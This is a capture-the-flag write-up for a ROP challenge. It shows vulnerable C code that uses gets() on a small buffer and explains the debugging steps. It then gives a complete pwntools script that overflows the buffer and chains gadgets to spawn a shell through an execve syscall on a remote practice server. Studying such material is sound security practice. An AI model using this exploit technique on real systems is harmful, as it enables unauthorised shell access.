



The binary can be downloaded here.
The source code of the binary is as below.
#include
#include
#include
#include
#include
#define BUFSIZE 16
void vuln() {
char buf[16];
printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
return gets(buf);
}
int main(int argc, char **argv){
setvbuf(stdout, NULL, _IONBF, 0);
// Set the gid to the effective gid
// this prevents /bin/sh from dropping the privileges
gid_t gid = getegid();
setresgid(gid, gid, gid);
vuln();
}
As you can see from the source code, this problem has a buffer overflow vulnerability in vuln.
Running checksec showed that PIE was not enabled, meaning that I could potentially use ROP.

Using pwndbg, I tried to get the PLT address of gets for my ROP chain but instead got the actual function code itself,
which suggested that libc was statically linked to the binary when it was compiled. And sure enough, vmmap revealed that
libc was not dynamically linked to the executable.

My initial plan was to get the GOT entry of two library functions and obtain the version of libc the program was running on, and then
finally call system("/bin/sh"). However, that was now impossible, so I decided to call the system call
execve("/bin/sh", NULL, NULL) instead. I obtained the necessary gadgets using ROPgadgets as shown below.

The diagram below represents the ROP chain that I constructed to call execve("/bin/sh", NULL, NULL). When the ROP chain
executes gets(addr_to_bss), the program will read "/bin/sh" from stdin so that it can be used in the subsequent syscall.
The exploit code is shown below.
#!/usr/bin/env python3
from pwn import *
def ex():
pop_ecx_ret = 0x08049e29
pop_eax_edx_ebx_ret = 0x080583b8
int_0x80 = 0x0804a3c2
gets_addr = 0x08051b60
bss_addr = 0x80e62c0
context.log_level = "debug"
p = remote("saturn.picoctf.net", 63266)
p.recvline()
payload = b""
payload += b"A"*28
payload += p32(gets_addr)
payload += p32(pop_ecx_ret)
payload += p32(bss_addr)
payload += p32(pop_eax_edx_ebx_ret)
payload += p32(0xb)
payload += p32(0x0)
payload += p32(bss_addr)
payload += p32(pop_ecx_ret)
payload += p32(0x0)
payload += p32(int_0x80)
p.sendline(payload)
sleep(0.1)
p.sendline(b"/bin/sh")
p.interactive()
if __name__ == "__main__": ex()